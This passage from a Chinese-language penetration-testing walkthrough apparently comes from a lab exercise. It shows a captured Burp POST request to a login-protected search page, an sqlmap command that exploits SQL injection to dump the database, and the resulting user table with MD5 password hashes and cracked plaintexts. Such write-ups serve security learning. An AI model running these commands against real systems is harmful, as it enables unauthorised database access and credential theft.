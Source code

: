 burp抓包

![image-20220321110438192](https://gitee.com/xxb667/img/raw/master/img/image-20220321110438192.png)

抓取到的内容

```
POST /welcome.php HTTP/1.1
Host: 192.168.81.144
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.81.144
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.81.144/welcome.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=mgnutee8r93e52jdres0rsbui4
dnt: 1
sec-gpc: 1
Connection: close

search=*
```

保存的文件名为：**hack.txt**

## 5.2 获得近来数据库用户

```
sqlmap -r hack.txt --current-user --batch --smart --dump
```

--batch：自动获取

--dump：打印

--current-user：获取近来用户

book表中的内容：

![image-20220321110735391](https://gitee.com/xxb667/img/raw/master/img/image-20220321110735391.png)

user表中的内容：

```
1  | David        | user1      | 5d41402abc4b2a76b9719d911017c592 (hello)    | Newton Circles |
| 2  | Beckham      | user2      | 6269c4f71a55b24bad0f0267d9be5508 (commando) | Kensington     |
| 3  | anonymous    | user3      | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) | anonymous      |
| 10 | testismyname | test       | 05a671c66aefea124cc08b76ea6d30bb (testtest) | testaddress    |
| 11 | superadmin   | superadmin | 2386acb2cf356944177746fc92523983            | superadmin     |
| 12 | test1        | test1      | 05a671c66aefea124cc08b76ea6d30bb (testtest) | test1          |
| 13 | <blank>      | admin      | e10adc3949ba59abbe56e057f20f883e (123456)   | <blank>        
```

![image-20220321110836721](https://gitee.com/xxb667/img/raw/master/img/image-20220321110836721.png)

